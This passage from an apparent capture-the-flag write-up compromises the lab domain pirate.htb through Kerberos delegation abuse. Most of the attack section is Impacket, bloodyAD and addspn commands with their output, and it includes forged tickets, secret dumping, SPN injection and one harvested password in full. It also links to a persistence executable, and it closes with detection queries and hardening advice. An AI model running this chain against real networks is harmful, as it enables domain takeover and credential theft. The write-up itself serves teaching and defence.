We ask the Domain Controller for a Service Ticket to the `cifs` service on `WEB01`, asserting that we want to act on behalf of the `Administrator` user. Because of the RBCD configuration we just injected, the KDC issues the ticket.

```bash
getST.py -spn 'cifs/WEB01.pirate.htb' -impersonate 'Administrator' 'pirate.htb/VYSHKGDW$:8j3I/8s}rOYPLRE' -dc-ip 10.129.4.86

export KRB5CCNAME=Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
```

[Administrator.ccache](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/Administrator.ccache "Results")




### Step 4: Execution

Holding a valid Kerberos ticket for the Domain Admin on `WEB01`, we use `psexec.py` to pass the ticket and gain a highly privileged system shell, granting us access to the user flag.

```bash
┌──(myenv)(z0n㉿0x0z0n)-[~/z0n/z0n/posts/Pirate]
└─$ psexec.py pirate.htb/Administrator@WEB01.pirate.htb -k -no-pass -target-ip 192.168.100.2                                                                                                                                                                
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation                                                                                                     
[*] Requesting shares on 192.168.100.2.....                                                                                                                                                                                                                 
[*] Found writable share ADMIN$                                                                  
[*] Uploading file RACEvSIw.exe                                                                       
[*] Opening SVCManager on 192.168.100.2.....                                                            
[*] Creating service rLnv on 192.168.100.2.....                                                            
[*] Starting service rLnv.....                                                                           
[!] Press help for extra shell commands                                                                   
Microsoft Windows [Version 10.0.17763.8385]                                                                
(c) 2018 Microsoft Corporation. All rights reserved.                                                   
C:\WINDOWS\system32>C:\Users\a.white\Desktop> type user.txt
61659bXXXXXXXXXXXXXXXXXXXXX
```







## Privilege Escalation

With high-privileged access established on `WEB01` and the user flag secured, the final objective is to pivot back to the Domain Controller and compromise the entire `PIRATE.HTB` domain.

### Post-Exploitation: Credential Harvesting

When compromising a new machine, the first priority is extracting local secrets. System administrators often leave credentials in memory, LSA secrets, or local credential vaults. Using the Kerberos ticket we generated for `WEB01`, we dump the machine's local hashes and plaintext passwords using Impacket's `secretsdump.py`.

```bash
┌──(myenv)(z0n㉿0x0z0n)-[~/z0n/z0n/posts/Pirate]
└─$ secretsdump.py pirate.htb/Administrator@WEB01.pirate.htb -k -no-pass -target-ip 192.168.100.2


[*] DefaultPassword                                                                                                 
PIRATE\a.white:E2nvAXXXXXXXXXX
```

[dump.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/dump.txt "Results")

### The Vulnerability: ACL Tiering Violations & SPN Logic

Reviewing our initial BloodHound graph reveals two critical Active Directory misconfigurations that form a devastating exploit chain:

1. **ACL Tiering Violation:** The standard user `a.white` has `ForceChangePassword` (GenericWrite) privileges over `a.white_adm`. This is a severe tiering violation, allowing a low-privileged account to take over an administrative account.
2. **Constrained Delegation & WriteSPN:** `a.white_adm` is configured for Kerberos Constrained Delegation (KCD). KCD normally restricts an account to impersonating users *only* to a specific service-in this case, `HTTP/WEB01.pirate.htb`. However, `a.white_adm` also possesses `WriteSPN` rights over machine accounts.

**The KCD Flaw:** The Key Distribution Center (KDC) validates delegation by checking the string value in the `msDS-AllowedToDelegateTo` attribute (e.g., `HTTP/WEB01.pirate.htb`). It does *not* strictly verify which computer object actually holds that SPN. If we can move that specific SPN string from `WEB01$` to `DC01$`, the KDC will issue us an impersonation ticket for the Domain Controller instead of the Web Server.

### Account Takeover

Using the compromised `a.white` credentials, we exercise the `ForceChangePassword` right to overwrite the password of the administrative account `a.white_adm`. We use `bloodyAD` to execute this remotely.

```bash
┌──(myenv)(z0n㉿0x0z0n)-[~/z0n/z0n/posts/Pirate]                                
└─$ bloodyAD -d pirate.htb -u 'a.white' -p 'E2nvAOKSz5Xz2MJu' --host 10.129.217.8 set password a.white_adm 'z0n@090!'                                                                                                                                       
[+] Password changed successfully!
```




### SPN Injection (The KCD Bypass)

Now in control of `a.white_adm`, we weaponize the `WriteSPN` privilege. We must delete the target SPN from the web server and register it onto the Domain Controller.

First, we remove the SPN from `WEB01$`:

```bash
┌──(myenv)(z0n㉿0x0z0n)-[~/z0n/z0n/posts/Pirate/krbrelayx]
└─$ python3 addspn.py -u 'pirate.htb\a.white_adm' -p 'z0n@090!' -t 'WEB01$' -s 'HTTP/WEB01.pirate.htb' -r 10.129.217.8
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```



Next, we inject that exact same SPN string onto `DC01$`:

```bash
┌──(myenv)(z0n㉿0x0z0n)-[~/z0n/z0n/posts/Pirate/krbrelayx]
└─$ python3 addspn.py -u 'pirate.htb\a.white_adm' -p 'z0n@090!' -t 'DC01$' -s 'HTTP/WEB01.pirate.htb' 10.129.217.8
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully

```





The KDC still thinks `a.white_adm` is only allowed to delegate to `HTTP/WEB01.pirate.htb`. But because we moved where that SPN points, the delegation path now leads straight to the Domain Controller.

### Service-for-User (S4U) Abuse

With the routing logic poisoned, we execute the S4U2Self and S4U2Proxy Kerberos extensions using Impacket's `getST.py`.

We instruct the KDC to impersonate the Domain `Administrator` account. Because the KDC sees the approved SPN string, it grants the ticket. However, we use the `-altservice` flag to request a `CIFS` ticket instead of `HTTP`. Since Kerberos tickets are encrypted with the machine account's hash, and both services run under the `DC01$` context, the ticket remains perfectly valid for SMB access.

```bash
┌──(myenv)(z0n㉿0x0z0n)-[~/z0n/z0n/posts/Pirate]
└─$ getST.py -spn 'HTTP/WEB01.pirate.htb' -impersonate 'Administrator' 'pirate.htb/a.white_adm:z0n@090!' -dc-ip 10.129.217.8 -altservice 'CIFS/DC01.pirate.htb'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from HTTP/WEB01.pirate.htb@PIRATE.HTB to CIFS/DC01.pirate.htb@PIRATE.HTB
[*] Saving ticket in Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache


```

### Execution & Root Flag

We now hold an authorized, forged Kerberos ticket for the Domain Administrator on `DC01`. We pass the ticket into `psexec.py` to establish a high-privileged system shell on the Domain Controller.

```bash
export KRB5CCNAME=Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache

psexec.py pirate.htb/Administrator@DC01.pirate.htb -k -no-pass
```

[Administrator.ccache](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache "Results")

From the resulting `C:\Windows\system32>` prompt, we navigate to the Administrator's desktop and capture the final flag.

```windows-cmd
type C:\Users\Administrator\Desktop\root.txt
```



# Adversary Emulation

## Evidence Collection

### Data Exfilltration

[persist.exe Don't Download!](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/persist.exe "Results")

[pirate_logs.ps1](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/pirate_logs.ps1 "Results")



[Evidence](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/Loot_20260302_0729.zip "Results")

[Evidence](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/Loot_20260302_0735.zip "Results")

# Defensive Operations

### Startegic Overview

* **1.1 Definition:** A multi-stage Active Directory compromise leveraging legacy group permissions for credential extraction, NTLM coercion for Resource-Based Constrained Delegation (RBCD) exploitation, and Service Principal Name (SPN) injection to hijack Kerberos Constrained Delegation (KCD).
* **1.2 Impact:** Total Domain Compromise (Tier 0 Takeover), allowing unauthorized access to the Domain Controller and all integrated directory services.
* **1.3 The Scenario:** An adversary establishes an initial foothold by exploiting a weakly provisioned machine account (`MS01$`) residing in a legacy access group. This enables the extraction of Group Managed Service Account (gMSA) credentials. The adversary then pivots into an isolated subnet, coerces a web server into authenticating over NTLM, and relays the authentication to grant a rogue machine account RBCD rights. Finally, local credential extraction leads to an ACL tiering violation, permitting the adversary to manipulate SPNs and forge Kerberos Service Tickets for the Domain Controller via S4U extensions.


### System Architecture

* **2.1 Protocol Environment:** Active Directory Domain Services (AD DS), Kerberos (S4U2Self/S4U2Proxy, KCD, RBCD), NTLMv2, LDAP/LDAPS, SMB, and Microsoft RPC (MS-RPRN/MS-EFSR).
* **2.2 Attack Logic Flow:**

> [Pre-Win2000 Access] -> [gMSA Password Extraction] -> [NTLM Coercion & LDAP Relay] -> [RBCD Hijack on WEB01] -> [ForceChangePassword on Admin] -> [WriteSPN Injection] -> [Domain Takeover]

* **2.3 Theoretical Analogy:** The Constrained Delegation exploit operates like a forged courier manifest. A trusted courier (the compromised admin account) is authorized to deliver packages only to a specific warehouse (the HTTP service on WEB01). By altering the warehouse's address on the master registry (SPN Injection) to match the central vault (DC01), the security guards (KDC) validate the courier's identity and manifest, inadvertently granting them access to the vault.

### Attack Vector


| Attribute                  | Technical Details                                                                                                                                                                                                            |
| :------------------------- | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers**    | `msDS-ManagedPassword`<br>`msDS-AllowedToActOnBehalfOfOtherIdentity`<br>`servicePrincipalName`<br>`msDS-AllowedToDelegateTo`                                                                                                 |
| **Critical Vulnerability** | **Unsigned LDAP** permitting NTLM relay to LDAPS.<br><br>**ACL tiering violation** (`ForceChangePassword` delegated improperly).<br><br>Improper SPN validation enabling abuse of **Kerberos Constrained Delegation (S4U)**. |
| **Offensive Action**       | 1. NTLM relay to LDAPS to modify RBCD attribute.<br><br>2. Inject `HTTP` SPN from `WEB01$` to `DC01$` using `WriteSPN`.<br><br>3. Request S4U service ticket using manipulated SPN to impersonate `Administrator`.           |

### Prerequisites

* **Access Level:** Standard user or minimally provisioned machine account (e.g., `MS01$`) for initial recon; Local Admin on intermediate systems for credential dumping.
* **Connectivity:** TCP 88 (Kerberos), TCP 389/636 (LDAP/LDAPS), TCP 445 (SMB), RPC dynamic ports.
* **Target State:** `Pre-Windows 2000 Compatible Access` group populated; LDAP signing disabled/unenforced; Kerberos Constrained Delegation enabled on highly privileged accounts.


### Threat Hunting & Anamoly Analysis

* **Hunt Hypothesis:** Adversaries bypassing standard EDR will generate anomalous directory replication or modification events, specifically targeting delegation attributes and SPNs originating from non-system or non-administrative endpoints.
* **Behavioral Outliers:** A machine account (`WEB01$`) authenticating to the DC to modify its own `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute is highly anomalous outside of initial provisioning or authorized identity management automation. Similarly, the removal and immediate reallocation of a `servicePrincipalName` across two distinct machine accounts (`WEB01$` to `DC01$`) by a delegated user account indicates an active KCD hijacking attempt.
* **Toxic Combinations:** * `Pre-Windows 2000 Compatible Access` + Default Machine Passwords.
* Accounts with `WriteSPN` + Accounts configured for Kerberos Constrained Delegation.
* Standard Users + `ForceChangePassword` over Tier 0/Tier 1 administrators.


### Detection Engineering

* **Telemetry Gap Analysis:** Comprehensive visibility requires Windows Security Event IDs **4742** (Computer Account Management), **4738** (User Account Management), **5136** (Directory Service Object Modified), and **4624** (Logon). Advanced telemetry relies on native Identity Security platforms (like Defender for Identity) to track LDAP queries and SPN shifts.
* **Detection-as-Code (KQL):**

```kql
// Detect SPN modifications indicative of WriteSPN/KCD abuse
SecurityEvent
| where EventID == 5136
| where EventData has "servicePrincipalName"
| extend ObjectDN = tostring(parse_xml(EventData).EventData.Data[1])
| extend AttributeValue = tostring(parse_xml(EventData).EventData.Data[5])
| extend SubjectUserName = tostring(parse_xml(EventData).EventData.Data[10])
| where SubjectUserName !endswith "$" // Filter out legitimate system account changes
| project TimeGenerated, SubjectUserName, ObjectDN, AttributeValue, Computer
| summarize count() by SubjectUserName, AttributeValue, bin(TimeGenerated, 5m)
| where count_ > 1 // Look for rapid removal and addition of SPNs

```

* **Resilience Test:** An adversary may attempt to bypass this by utilizing DCSync to dump the attributes directly rather than querying LDAP, or by using native Windows APIs (ADSI) to blend the modification traffic. *Countermeasure:* Implement a sub-rule monitoring Event ID **4662** (Operation performed on an object) specifically targeting the `DS-Replication-Get-Changes` right to catch DCSync, alongside strict EDR API unhooking detections.


### Toolkit & Implementation

* **Automation:** `Impacket` (getTGT, getST, secretsdump, ntlmrelayx), `bloodyAD`, `gMSADumper`, `coercer`, `Ligolo-ng`.
* **OPSEC Analysis:** The use of `faketime` demonstrates a high level of operational security, aligning Kerberos TGT request timestamps with the target KDC to avoid clock skew alerts (`KRB_AP_ERR_SKEW`). The use of `Ligolo-ng` establishes a layer 3 encrypted tunnel, bypassing standard SOCKS proxy detection mechanisms and allowing raw packet routing for tools like `coercer`.
* **Post-Exploitation:** Following Domain Admin compromise via S4U, adversaries typically execute `secretsdump.py` against the `NTDS.dit` file to establish long-term persistence via Golden Tickets (`krbtgt` hash) or deploy unauthorized identity federation backdoors.


### Defensive Mechanism

* **Technical Hardening:**
1. **Empty Legacy Groups:** Immediately audit and remove all members from the `Pre-Windows 2000 Compatible Access` group.
2. **Enforce LDAP Signing:** Require LDAP Channel Binding and LDAP Signing across all Domain Controllers to neutralize NTLM relay attacks against LDAPS.
3. **Restrict NTLM:** Add high-value targets (like WEB01 and DC01) to the "Protected Users" security group to prevent NTLM authentication and force Kerberos.
4. **Secure SPNs:** Audit all accounts with `WriteSPN` capabilities. This permission should be strictly limited to Tier 0 infrastructure administrators.


* **Personnel Focus:** Enforce strict Active Directory Tiering (Tier 0, Tier 1, Tier 2). Security Operations personnel must be trained to identify cross-tier ACL violations (e.g., Tier 2 user possessing `GenericWrite` over a Tier 1 admin).


### QUICK-ACTION PLAYBOOK

| Step | Objective               | Technical Command / Logic                                                                                                                               |
| :--: | :---------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------ |
|  01  | **Audit RBCD**          | `Get-ADComputer -Filter * -Properties msDS-AllowedToActOnBehalfOfOtherIdentity \| Where-Object {$_.msDS-AllowedToActOnBehalfOfOtherIdentity -ne $null}` |
|  02  | **Hunt SPN Shifts**     | Query SIEM for Event ID `5136` where `AttributeName: servicePrincipalName`.                                                                             |
|  03  | **Check Legacy Groups** | `Get-ADGroupMember -Identity "Pre-Windows 2000 Compatible Access"`                                                                                      |

